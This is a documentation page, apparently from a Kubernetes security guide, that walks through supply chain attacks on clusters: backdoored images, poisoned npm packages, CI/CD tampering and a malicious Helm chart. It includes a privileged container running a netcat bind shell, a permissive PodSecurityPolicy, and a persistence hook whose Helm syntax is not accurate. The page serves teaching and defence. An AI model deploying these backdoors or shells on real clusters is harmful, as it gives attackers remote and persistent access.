 ```yaml
---
sidebar_position: 6
title: "Supply Chain Attacks"
description: "How attackers compromise container images, dependencies, CI/CD pipelines, and Helm charts to infiltrate Kubernetes clusters."
---
```


# Supply Chain Attacks

Supply chain attacks in Kubernetes target the **container build process, dependencies, CI/CD pipelines, or Helm charts** to introduce malicious components into your cluster. These attacks can lead to **unauthorized access, persistent backdoors, and data exfiltration**.

---

## Exploitation Steps: Poisoning the Software Supply Chain

An attacker compromises the cluster by introducing malicious components during the software delivery lifecycle.

### 1. Publish a Malicious Container Image

The attacker creates and pushes a backdoored image to a public registry:

```bash
docker build -t attacker/malicious-app .
docker push docker.io/attacker/malicious-app
```

---

### 2. Deploy Unverified Image in Production

A Kubernetes workload unknowingly uses the attacker’s image:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  template:
    spec:
      containers:
        - name: app
          image: docker.io/attacker/malicious-app
```

No signature validation or source verification is performed.

---

### 3. Inject Malicious Dependencies

The attacker publishes a compromised package:

```bash
npm publish compromised-library
```

It is pulled automatically by an unsuspecting developer into a container image, enabling **remote code execution** in production.

---

### 4. Tamper with the CI/CD Pipeline

The attacker steals CI secrets and modifies manifests:

```bash
kubectl apply -f attacker-modified-deployment.yaml
```

This injects malicious logic into deployments automatically.

---

## Exploitation Steps: Deploying a Malicious Helm Chart

Helm charts offer another attack surface for supply chain compromise.

### 1. Publish a Malicious Helm Chart

The attacker embeds a backdoor in a Helm chart:

```yaml
containers:
  - name: backdoor-container
    image: attacker/malicious-image
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c"]
    args: ["while true; do nc -lvp 9001 -e /bin/sh; done"]
```

They then push it to a public repository:

```bash
helm package malicious-app
helm push malicious-app-1.0.0.tgz oci://public-helm-repo
```

---

### 2. Install Chart Without Verification

A user installs the chart without checking provenance:

```bash
helm repo add untrusted-repo oci://public-helm-repo
helm install vulnerable-app untrusted-repo/malicious-app
```

The **malicious workload** is now running.

---

### 3. Bypass Pod Security Policies

The attacker escalates privileges through insecure templates:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged-psp
spec:
  privileged: true
  runAsUser:
    rule: RunAsAny
  seLinux:
    rule: RunAsAny
```

They enable this at install:

```bash
helm install --set securityPolicy.privileged=true exploit-app
```

---

### 4. Maintain Persistence After Uninstall

A Helm hook ensures the backdoor remains:

```yaml
hooks:
  post-delete:
    - exec:
        command:
          [
            "/bin/sh",
            "-c",
            "while true; do sleep 60; kubectl apply -f /tmp/hidden-backdoor.yaml; done",
          ]
```

Even if the user runs:

```bash
helm uninstall exploit-app
```

The malicious deployment **reinstalls itself**.

---

### Result

The attacker successfully compromises the Kubernetes cluster via supply chain vectors, enabling:

- Deployment of malicious containers and packages
- Privilege escalation
- Long-term persistence
- CI/CD pipeline abuse

---

## Mitigation

➡ [Securing the Kubernetes Supply Chain](/docs/best_practices/supply_chain_mitigation)

